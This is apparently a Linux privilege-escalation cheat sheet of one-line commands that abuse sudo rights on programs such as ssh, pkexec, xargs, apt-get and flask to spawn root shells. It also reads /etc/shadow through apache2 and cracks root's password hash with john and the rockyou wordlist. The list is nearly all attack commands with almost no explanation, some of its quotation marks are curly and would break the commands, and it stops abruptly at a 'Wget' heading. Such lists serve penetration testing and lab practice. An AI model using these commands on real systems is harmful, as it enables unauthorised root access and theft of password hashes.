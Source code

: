 SSH
```ps1
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

Tmux
```ps1
Sudo tmux
```

pkexec
```ps1
sudo pkexec /bin/bash
```

rlwrap
```ps1
sudo rlwrap /bin/bash
```

xargs
```ps1
sudo xargs -a /dev/null sh
```

anansi_util
```ps1
sudo /home/anansi/bin/anansi_util manual /bin/bash  
```

apt-get
```ps1
sudo apt-get update -o APT::Update::Pre-Invoke::=”/bin/bash -i”
```

flask run
```ps1
echo 'import pty; pty.spawn(“/bin/bash”)' > flask.py
export FLASK_APP=flask.py
sudo /usr/bin/flask run
```

apache2

Victim
```ps1
sudo apache2 -f /etc/shadow
Copy root's hash
```
Attacker
```ps1
echo '<root's_hash>' > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

// Replace <root's_hash> with the hash that you copied 
```
Back to Victim
```ps1
su root
id && whoami
```
Wget
